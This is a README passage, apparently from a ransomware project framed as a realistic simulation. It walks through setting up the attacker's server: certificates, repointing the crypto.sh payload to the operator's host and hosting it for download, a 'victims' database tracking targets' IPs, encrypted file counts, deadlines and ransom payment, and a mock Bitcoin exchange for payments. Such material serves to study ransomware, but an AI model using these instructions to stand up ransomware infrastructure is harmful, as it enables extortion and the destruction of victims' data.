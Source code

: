 ## What to do on the server-side
 - > Configure your comms over HTTPS
 - > Sample certs are in the sample_apache_conf directory
 - $ `openssl genrsa -des3 -passout pass:neveruseinsecurepasswords -out server.pass.key 4096`
 - $ `openssl rsa -passin pass:neveruseinsecurepasswords -in server.pass.key -out server.key`
 - $ `openssl req -new -key server.key -out server.csr`
 - $ `openssl x509 -req -days 4096 -in server.csr  -signkey server.key -out server.crt`
 - $ `chmod 600 server.*`
 - $ `mkdir -p /etc/ssl/certs/`
 - $ `mv server.key /etc/ssl/certs/`
 - $ `mv server.crt /etc/ssl/certs/`
 - > Use the sample apache SSL and Default configurations in sample_apache_conf as a guide
 - > Then configure your apache to redirect HTTP traffic to HTTPS
 - > Enable SSL
 - $ `a2enmod ssl`
 - $ `servive apache2 restart`

 - > Modify crypto.sh and replace the IP with your web server's IP/URL
   - $ `sed -i 's/192\.168\.1\.132/YYY\.YYY\.YYY\.YYY/g' crypto.sh` # Where YYY.YYY.YYY.YYY is your IP
 - > OR
   - $ `sed -i 's/192\.168\.1\.132/www\.yourdomain\.com/g' crypto.sh`
   - $ `cp crypto.sh /var/www/html/downloads/`
 - > Copy all of the ransomware files to /var/www/html
 - > You should have all of the php files in the root of your web dir (/var/www/html/)
 - > You should also have /var/www/html/images/ and /var/www/html/scripts/
   - $ `cd /var/www/html/`
 - > Modify admin.php, admin_query.php, decrypt.php, query.php, count.php, and target.php with your database information
   - $ `chown -R www-data:root /var/www/html/`
 - > Next, create the database for storing the data
   - $ `mysql -u [user] -p`
   - $ `create database victims;`
   - $ `use victims;`
   - $ `create table target_list (id int(6) unsigned auto_increment primary key, unique_id varchar(16) not null, target_ip varchar(30), file_count int not null, curr_time timestamp not null, exp_time timestamp not null, time_expired bool not null, paid bool not null, paid_count timestamp not null);`
   - $ `exit`

## Bitcoin Exchange
 - This feature was added to add a dimension of realism to this project. This feature allows the user to visit our exchange in order to obtain a working bitcoin transaction id that will be accepted by the payment page
 - Previously, the payment page accepted any 64 character string (length of a Bitcoin transaction id)
 - Users have to find a way to obtain the required amount of bitcoin for their payment (either 2 or 5 BTC)
 - These files can either be added to the same host or to another host
 - Directions:
   - Mysql:
   - `mysql -u [user] -p`
   - `create database exchange`
   - `create table users (id int(6) unsigned auto_increment primary key, username varchar(16) not null, password varchar(32) not null);`
   - `exit`
   - Web pages:
     - `cp -R exchange/ /var/www/html`
 - Note: You must use this in order to get a transaction id that will be accepted by the payment page
